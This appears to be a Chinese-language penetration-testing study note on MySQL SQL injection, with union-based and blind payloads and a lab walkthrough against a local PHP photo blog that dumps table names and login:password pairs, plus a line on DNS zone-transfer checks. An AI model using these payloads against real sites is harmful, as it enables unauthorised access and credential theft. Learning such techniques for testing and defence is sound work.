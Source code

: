 #Pentester
##一、sql injection
###基本思路：
1. 判断是否有注入
2. 判断当前库名，表名，字段名
3. 获取数据
4. 考虑无回显处理
5. 看是否可以获取shell

###sql基本用法

1.select id,num from test union select 1,2
一般会逐个替换1,2换成想要显示的信息，需要确定哪个位置可以正确显示，当只有一个位置可以显示的时候，可以使用concat,这里可以判断查询使用了几个字段，如果该语句正常则表示使用了2个字段。如果union用不了可以使用order by 判断。 例子： order by 1 正确，order by 3 错误则表示查询使用了2个字段
例如：select ip from temp union select concat(@@version,':',database());
例2：select concat('my','s','ql','+',@@version);   结果：mysql+5.6.28
例3：select num,ip from temp union select 1,GROUP_CONCAT(table_name) FROM information_schema.tables WHERE version=10;
num为数字型，ip为字符型，information表里面的信息都是字符型，所有要放在2这个位置，放在1的位置会报错（类型不匹配）
注意：union后面跟的列的个数必须和前面select 的个数一致,union select 后面的数字可以接任意想获取的信息（version(),current_user(),@@version,database()等）
concat()函数用于连接一行中的字段，显示效果还是会有多行，而 group_concat用于把所有字段的内容都显示成一个大字符串。
mysql> select concat(id,name) from table1;
+-----------------+
| concat(id,name) |
+-----------------+
| 1luyg           |
| 2lucy           |
+-----------------+

mysql> select group_concat(id,name) from table1;
+-----------------------+
| group_concat(id,name) |
+-----------------------+
| 1luyg,2lucy           |
+-----------------------+

2.select id,num from test order by 2  根据num进行排序
select * from test order by 4 根据第四列进行排序，通过这个语句可以判断数据表中有多少列

3. select substr(table_name,17,1) from information_schema.tables limit 1;
substr用于字符串截取，17代表取出第17个字符，后面的1代表取1个，如果是2代表从17的位置开始取出2个字符，   limit 1代表取出1条记录

实战:
1. 判断注入：
http://172.16.45.128/cat.php?id=1 and true   返回正确结果
http://172.16.45.128/cat.php?id=1 and false  返回错误结果
该url存在注入
 2. 判断查询的字段个数：
http://172.16.45.128/cat.php?id=1 union select 1,2,3,4 返回正确结果
3.判断数据库版本和库名
http://172.16.45.128/cat.php?id=1 union select 1,@@version,3,4 这里把最后的2变成了@@verison 实际的sql语句变成了  select @@version , 放在2这个位置是因为在页面上有显示内容，可以直接把查询后的信息在页面上展示了，这个可以根据实际情况进行适当处理，2这个位置可以换成database()来获取库名字，user()获取数据库用户名
4. 判断表名
使用union方式：
http://172.16.45.128/cat.php?id=1 union select 1,(select GROUP_CONCAT(table_name) FROM information_schema.tables),3,4
![image](https://github.com/luyg24/IT_security/blob/master/guess_table.png)
上述方法会查找所有表名，如果只想查找指定数据库的表，使用table_schema作为条件判断
select id,name,sex from table1 union select 1,(select GROUP_CONCAT(table_name) FROM information_schema.tables where table_schema = 'photoblog'),3;

使用盲注方式：

`cat.php?id=1 and (SELECT SUBSTR(table_name,1,1) FROM information_schema.tables limit 1 ) > 'A'`

如果返回正常代表表名的第一个字符是>'A'的

`select * from users where id = 1 and ((SELECT SUBSTR(table_name,1,1) FROM information_schema.tables limit 1 )> 'A');`

`cat.php?id=1 union select 1,(select group_concat(column_name) from information_schema.columns where table_name = 'users'),1,1`

获取字段

`select column_name from information_schema.columns where table_name = 'users'`

获取数据

`http://172.16.45.128/cat.php?id=1 union select 1,(select concat(login,':',password) from users),1,1`


针对以上存在漏洞的站点进行部分安全防护措施，具体如下
php配置文件启用 magic_quotes_gpc  禁用 display_errors

 telnet获取网站head 信息
![image](https://github.com/luyg24/IT_security/blob/master/telnet-head.png)
参考：http://blog.csdn.net/zbzheng/article/details/3765033
参考：http://drops.wooyun.org/tips/123

##Other、
###dns区域传送检查
- nslookup 进入交互shell，使用server 指定dns服务器，然后 ls -d 域名，例如ls -d abc.com.cn   即可
参考：http://www.lijiejie.com/dns-zone-transfer-1/
- 

